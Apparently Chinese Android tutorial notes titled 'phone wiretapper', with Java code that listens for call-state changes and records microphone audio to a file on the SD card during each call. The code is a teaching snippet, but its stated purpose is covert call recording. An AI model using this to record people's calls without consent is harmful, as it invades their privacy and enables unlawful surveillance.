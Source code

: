 #电话窃听器
* 电话状态：空闲、响铃、接听
* 获取电话管理器，设置侦听

		TelephonyManager tm = (TelephonyManager) getSystemService(TELEPHONY_SERVICE);
		tm.listen(new MyPhoneStateListener(), PhoneStateListener.LISTEN_CALL_STATE);
* 侦听对象的实现

		class MyPhoneStateListener extends PhoneStateListener{

			//当电话状态改变时，此方法调用
			@Override
			public void onCallStateChanged(int state, String incomingNumber) {
				// TODO Auto-generated method stub
				super.onCallStateChanged(state, incomingNumber);
				switch (state) {
				case TelephonyManager.CALL_STATE_IDLE://空闲
					if(recorder != null){
						recorder.stop();
						recorder.release();
					}
					break;
				case TelephonyManager.CALL_STATE_OFFHOOK://摘机
					if(recorder != null){
						recorder.start();
					}
					break;
				case TelephonyManager.CALL_STATE_RINGING://响铃
					recorder = new MediaRecorder();
					//设置声音来源
					recorder.setAudioSource(MediaRecorder.AudioSource.MIC);
					//设置音频文件格式
					recorder.setOutputFormat(MediaRecorder.OutputFormat.THREE_GPP);
					recorder.setOutputFile("sdcard/haha.3gp");
					//设置音频文件编码
					recorder.setAudioEncoder(MediaRecorder.AudioEncoder.AMR_NB);
					try {
						recorder.prepare();
					} catch (IllegalStateException e) {
						// TODO Auto-generated catch block
						e.printStackTrace();
					} catch (IOException e) {
						// TODO Auto-generated catch block
						e.printStackTrace();
					}
					break;
				}
			}
		}